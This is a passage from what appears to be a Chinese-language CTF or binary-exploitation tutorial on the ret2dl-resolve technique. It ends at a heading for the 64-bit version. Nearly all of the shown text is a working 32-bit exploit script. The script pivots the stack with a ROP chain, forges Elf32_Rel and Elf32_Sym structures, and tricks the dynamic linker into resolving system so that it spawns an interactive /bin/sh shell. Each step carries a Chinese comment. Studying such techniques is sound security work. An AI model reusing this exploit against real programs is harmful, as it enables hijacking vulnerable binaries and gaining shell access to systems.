    payload += p32(pop3_ret)                                                        # read函数返回后从栈上弹出三个参数,为了后面能够将新的栈顶pop给ebp(read函数执行完后，参数仍旧在栈中)
    payload += p32(0)                                                               # fd = 0
    payload += p32(new_stack_addr)                                                  # buf = new_stack_addr
    payload += p32(0x400)                                                           # size = 0x400
    payload += p32(pop_ebp_ret)                                                     # 把新栈顶给ebp，接下来利用leave指令把ebp的值赋给esp
    payload += p32(new_stack_addr)
    payload += p32(leave_ret)                                                       # ret执行之后，esp执行payload1+4即p32(write_plt_without_push_reloc_arg)的位置

    p.send(payload)
    sleep(1)

    fake_Elf32_Rel_addr = new_stack_addr + 0x50                                     # 在新栈上选择一块空间放伪造的Elf32_Rel结构体，结构体大小为8字节
    fake_Elf32_Sym_addr = new_stack_addr + 0x5c                                     # 在伪造的Elf32_Rel结构体后面接上伪造的Elf32_Sym结构体，结构体大小为0x10字节，需要使结构体首地址对齐
    binsh_addr = new_stack_addr + 0x74                                              # 把/bin/sh\x00字符串放在最后面

    fake_reloc_arg = fake_Elf32_Rel_addr - relplt_addr                              # 计算伪造的reloc_arg

    fake_r_info = ((fake_Elf32_Sym_addr - dymsym_addr)/0x10) << 8 | 0x7             # 伪造r_info，偏移要计算成下标，除以Elf32_Sym的大小，最后一字节为0x7

    fake_st_name = new_stack_addr + 0x6c - dynstr_addr                              # 伪造的Elf32_Sym结构体后面接上伪造的函数名字符串system

    fake_Elf32_Rel_data = ""
    fake_Elf32_Rel_data += p32(write_got)                                           # r_offset = write_got，以免重定位完毕回填got表的时候出现非法内存访问错误
    fake_Elf32_Rel_data += p32(fake_r_info)

    fake_Elf32_Sym_data = ""
    fake_Elf32_Sym_data += p32(fake_st_name)
    fake_Elf32_Sym_data += p32(0)                                                   # 后面的数据直接套用write函数的Elf32_Sym结构体
    fake_Elf32_Sym_data += p32(0)
    fake_Elf32_Sym_data += p32(0x12)

    payload1 = ""
    payload1 += "AAAA"                                                              # leave = mov esp, ebp; pop ebp（esp+4，此处用于填充）
    payload1 += p32(plt0_addr)                                                      # 调用PLT[0]传入参数*link_map并调用_dl_fixup
    payload1 += p32(fake_reloc_arg)                                                 # 传入伪造的reloc_arg重定位并返回到system函数
    payload1 += p32(0)                                                              # system函数返回值
    payload1 += p32(binsh_addr)                                                     # /bin/sh字符串地址
    payload1 += "A"*0x3c                                                            # padding
    payload1 += fake_Elf32_Rel_data
    payload1 += "AAAA"
    payload1 += fake_Elf32_Sym_data
    payload1 += "system\x00\x00"
    payload1 += "/bin/sh\x00"

    p.send(payload1)
    sleep(3)
    p.interactive()
```

## 64位下的ret2dll-resolve
